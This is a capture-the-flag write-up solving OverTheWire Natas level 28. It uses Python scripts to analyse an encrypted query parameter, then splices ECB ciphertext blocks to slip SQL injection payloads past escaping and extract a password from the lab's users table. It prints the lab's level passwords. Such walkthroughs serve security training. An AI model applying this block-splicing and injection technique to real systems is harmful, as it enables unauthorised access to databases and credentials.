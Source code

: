 # Level 27 → Level 28

## Details
Username: `natas28`<br />
Password: `skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4`<br />
URL:      http://natas28.natas.labs.overthewire.org

## Solution
Wow that took a long time out of my life...<br />
Let's start:

![](0.png)

![](1.png)

![](2.png)

Well, there is a case of HTTP redirect here. Let's see it in Wireshark:

![](3.png)

I tried playing a bit with the **query** parameter...

![](4.png)

![](5.png)

I looked into what [PKCS#7 padding](https://medium.com/asecuritysite-when-bob-met-alice/so-what-is-pkcs-7-daf8f4423fd1) is... but didn't have much to do with it at the moment.

So, I decided to look deeper into the strange parameter sent by the site itself. It was very easy to understand that it was base64, so I created a program that prints the original bytes that are sent to the query for many inputs:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from urllib.parse import unquote
from base64 import b64decode
from string import printable

# Current level details
natas28_username = "natas28"
natas28_password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"

# GET HTTP details
URL = "http://natas28.natas.labs.overthewire.org/?query={0}"
AUTH = HTTPBasicAuth(natas28_username, natas28_password)

for c in printable:
    res = get(url=URL.format(c), auth=AUTH, allow_redirects=False)
    new_location = res.headers['Location'].split('=')[-1]
    print(bytes.hex(b64decode(unquote(new_location))))
```

![](6.png)

that's very weird. Everything is the same except for a 16-byte part in the middle.
Let's print again separating into groups of 16 bytes:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from urllib.parse import unquote
from base64 import b64decode
from string import printable

# Current level details
natas28_username = "natas28"
natas28_password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"

# GET HTTP details
URL = "http://natas28.natas.labs.overthewire.org/?query={0}"
AUTH = HTTPBasicAuth(natas28_username, natas28_password)

for c in printable:
    res = get(url=URL.format(c), auth=AUTH, allow_redirects=False)
    new_location = res.headers['Location'].split('=')[-1]
    decoded = bytes.hex(b64decode(unquote(new_location)))
    print(c + ":", ' '.join([decoded[i*2*16:(i+1)*2*16] for i in range(len(decoded)//(2*16))]))
```

![](7.png)

A number of things can be concluded from looking at the output.
* Each row can be divided into 3 parts in this order:
    * Fixed part<br />
    `1be82511a7ba5bfd578c0eef466db59c dc84728fdcf89d93751d10a7c75c8cf2`
    * Variable part (probably depends on input from the user)
    * A part that in most cases looks the same except for the characters `"`, `#`, `&`, `'`, `\`, `\n`, `\r`

* It seems that the input from the user has been padded to 16 bytes, and encrypted.

I decided to try another approach, which is to see what happens when the input size changes. How does it affect?

```python
from requests import get
from requests.auth import HTTPBasicAuth
from urllib.parse import unquote
from base64 import b64decode

# Current level details
natas28_username = "natas28"
natas28_password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"

# GET HTTP details
URL = "http://natas28.natas.labs.overthewire.org/?query={0}"
AUTH = HTTPBasicAuth(natas28_username, natas28_password)

for i in range(32):
    res = get(url=URL.format('*'*i), auth=AUTH, allow_redirects=False)
    new_location = res.headers['Location'].split('=')[-1]
    decoded = bytes.hex(b64decode(unquote(new_location)))
    print(str(i).zfill(2) + ":", ' '.join([decoded[i*2*16:(i+1)*2*16] for i in range(len(decoded)//(2*16))]))
```

![](8.png)

And from this I deduced the following:
* The third part of the line actually depends on the second part. (Here it is expressed because of the size of the input).
* It is possible that what actually happens is a combination of the input from the user within an existing string (for example an sql query), padding and encryption.
* We have no control over the first part.
* The characters `&` and `#` are removed from the input
* The characters `\`, `\r`, `\n`, `"`, `'` increase the input by one character.

Therefore, the order of operations on the server is as follows:
1. The input comes from the user
2. The characters `&` and `#` are removed from it
3. The input goes through the `mysqli_real_escape_string` function
4. The input is integrated into a sql query and padded to a 16-byte division (probably with PKCS#7 padding)
5. The query undergoes some kind of block encryption, base64 and is sent as a parameter to the redirect.<br />
It also makes sense because of the parameter name, **"quary"**.

Can we generate a `select * from users where username='natas29'` style query ourselves and send? No. Because we don't know the encryption and its key...

So what can we do? After all, we will not be able to do sql injection due to the protection.<br />
is that so?<br />
Why can't we separate blocks between the protection of the `mysqli_real_escape_string` function (adding a slash `\`) and the special character?<br />
Ummm..<br />
Can we produce a hacked block and assemble a hacked query with it? Let's check it out!
We know that in each query up to 3 answers are displayed. We will try to get more answers as a start.

Note:
From an trial & error about the size of the input, it turns out that the original sql quary looks like this:<br />
`################ ################ ######<user input>########## ################ ####----------------`<br />
* First 6 characters in the block of the input I concluded that if you enter 10 characters and see result, then 11 characters and see result, you immediately see that **the block is the same** the second time. And if the size is 16, then before the input there were 6. <br />
* If the input to the quary is of size 0, then the fifth (and last) block has 4 bytes and then padding. This is true because when the input is size 12 there are still 5 blocks, and if the input is size 13 there are already 6 blocks.

Therefore, you have to be careful about the 6 bytes that go into the user's block, and you also have to be aware of the fact that each added character moves all the ones that come in line.

Back to our experiment:
1. We would like to inject a block that begins with the character `'` (that is, the last character in the previous block is `\`)
2. It is forbidden to omit the 6 bytes pushed to the user's block.

and hence:<br />
The input `*********' or 1=1-- -` will give us:<br />
![](9.png)

The input `**********` will give us: <br />
![](10.png)

Let's put them together and see what we got:

```python
from urllib.parse import quote
from base64 import b64encode

fixed_bytes = "1be82511a7ba5bfd578c0eef466db59c dc84728fdcf89d93751d10a7c75c8cf2"
Keeps_6_bytes = "60a227d6fb6eddec61d83de2500edd76"
user_input_and_the_rest = "7ec495538e8b79cb720f5dd46fc8a81c 41c098c4bacdc5ed9357564e5105dd7e 64d0dcc868253692adfcbd3796d1bf8a"

q = (fixed_bytes + Keeps_6_bytes + user_input_and_the_rest).replace(' ', '')

print('http://natas28.natas.labs.overthewire.org/search.php/?query=' + quote(b64encode(bytes.fromhex(q))))

# Output:
# http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W/1XjA7vRm21nNyEco/c%2BJ2TdR0Qp8dcjPJgoifW%2B27d7GHYPeJQDt12fsSVU46LectyD13Ub8ioHEHAmMS6zcXtk1dWTlEF3X5k0NzIaCU2kq38vTeW0b%2BK
```

![](11.png)

It worked!!<br />
Can we get the password now?<br />
The input `*********' union select password from users-- -` will give us:<br />
![](12.png)

We will now build the url exactly as before:
```python
from urllib.parse import quote
from base64 import b64encode

fixed_bytes = "1be82511a7ba5bfd578c0eef466db59c dc84728fdcf89d93751d10a7c75c8cf2"
Keeps_6_bytes = "60a227d6fb6eddec61d83de2500edd76"
user_input_and_the_rest = "f89dd8dbec15c6a6d9993a3dc7b7a308 86951754f7ad56454eb5d5b6768ee646 27d788aa2b09337e8d4bcc1e820f6370 a77e8ed1aabe0b5d05c4ffe6ac1423ab 478eb1a1fe261a2c6c15061109b3feda"

q = (fixed_bytes + Keeps_6_bytes + user_input_and_the_rest).replace(' ', '')

print('http://natas28.natas.labs.overthewire.org/search.php/?query=' + quote(b64encode(bytes.fromhex(q))))

# Output:
# http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W/1XjA7vRm21nNyEco/c%2BJ2TdR0Qp8dcjPJgoifW%2B27d7GHYPeJQDt12%2BJ3Y2%2BwVxqbZmTo9x7ejCIaVF1T3rVZFTrXVtnaO5kYn14iqKwkzfo1LzB6CD2Nwp36O0aq%2BC10FxP/mrBQjq0eOsaH%2BJhosbBUGEQmz/to%3D
```

![](13.png)

That is, we collected 0 jokes from their table, and guessed correctly that the table relevant to the solution is called "users". It turns out that there is only one user in *users*, natas29.<br />
That's the password!!!<br />
Have a wonderful day!

## Password for the next level:
```
pc0w0Vo0KpTHcEsgMhXu2EwUzyYemPno
```

